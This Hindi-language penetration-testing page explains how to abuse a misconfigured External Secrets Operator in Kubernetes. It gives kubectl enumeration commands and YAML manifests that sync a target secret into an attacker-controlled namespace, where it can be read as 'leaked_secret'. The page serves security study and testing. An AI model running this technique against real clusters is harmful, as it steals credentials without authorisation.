 # External Secret Operator

**इस पृष्ठ के मूल लेखक हैं** [**Fares**](https://www.linkedin.com/in/fares-siala/)

यह पृष्ठ कुछ संकेत देता है कि आप कैसे एक गलत कॉन्फ़िगर किए गए ESO या एप्लिकेशन से रहस्यों को चुरा सकते हैं जो अपने रहस्यों को समन्वयित करने के लिए ESO का उपयोग करता है।

## अस्वीकरण

नीचे दिखाए गए तकनीक केवल तभी काम कर सकती है जब कुछ परिस्थितियाँ पूरी हों। उदाहरण के लिए, यह उस आवश्यकता पर निर्भर करता है जो एक रहस्य को आपके द्वारा स्वामित्व / समझौता किए गए namespace पर समन्वयित करने की अनुमति देती है। आपको इसे स्वयं पता करना होगा।

## पूर्वापेक्षाएँ

1. एक kubernetes / openshift क्लस्टर में एक पैर जमाना जिसमें एक namespace पर प्रशासनिक विशेषाधिकार हो
2. क्लस्टर स्तर पर कम से कम ExternalSecret पर पढ़ने की पहुंच
3. यह पता करें कि क्या कोई आवश्यक लेबल / एनोटेशन या समूह सदस्यता की आवश्यकता है जो ESO को आपके रहस्य को समन्वयित करने की अनुमति देती है। यदि आप भाग्यशाली हैं, तो आप किसी भी परिभाषित रहस्य को स्वतंत्र रूप से चुरा सकते हैं।

### मौजूदा ClusterSecretStore के बारे में जानकारी इकट्ठा करना

मान लीजिए कि आपके पास इस संसाधन को पढ़ने के लिए पर्याप्त अधिकार वाले उपयोगकर्ता हैं; पहले मौजूदा _**ClusterSecretStores**_ की सूची बनाकर शुरू करें।
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

मान लीजिए कि आपने _**mystore**_ नाम का ClusterSecretStore पाया है। इसके संबंधित externalsecret की गणना जारी रखें।
```sh
kubectl get externalsecret -A | grep mystore
```
_यह संसाधन नामस्थान स्कोप किया गया है, इसलिए जब तक आप पहले से नहीं जानते कि किस नामस्थान में देखना है, सभी नामस्थानों में देखने के लिए -A विकल्प जोड़ें।_

आपको परिभाषित externalsecret की एक सूची मिलनी चाहिए। मान लीजिए कि आपने _**mysecret**_ नाम का एक externalsecret ऑब्जेक्ट पाया है जो _**mynamespace**_ नामस्थान द्वारा परिभाषित और उपयोग किया गया है। यह जानने के लिए कि यह किस प्रकार का रहस्य रखता है, थोड़ी और जानकारी इकट्ठा करें।
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### टुकड़ों को इकट्ठा करना

यहां से आप एक या एक से अधिक गुप्त नाम (जैसे कि Secret संसाधन में परिभाषित) प्राप्त कर सकते हैं। आपको एक आउटपुट मिलेगा जो इस तरह का होगा:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
अब तक हमारे पास है:

- एक ClusterSecretStore का नाम
- एक ExternalSecret का नाम
- गुप्त का नाम

अब जब हमारे पास सब कुछ है, आप एक ExternalSecret बना सकते हैं (और अंततः आवश्यकताओं के अनुसार अपने नए गुप्त को समन्वयित करने के लिए एक नया Namespace पैच/बनाने के लिए):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
कुछ मिनटों के बाद, यदि समन्वय की शर्तें पूरी हो गईं, तो आपको अपने नामस्थान के अंदर लीक किया गया रहस्य देखने में सक्षम होना चाहिए।
```sh
kubectl get secret leaked_secret -o yaml
```
## संदर्भ

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
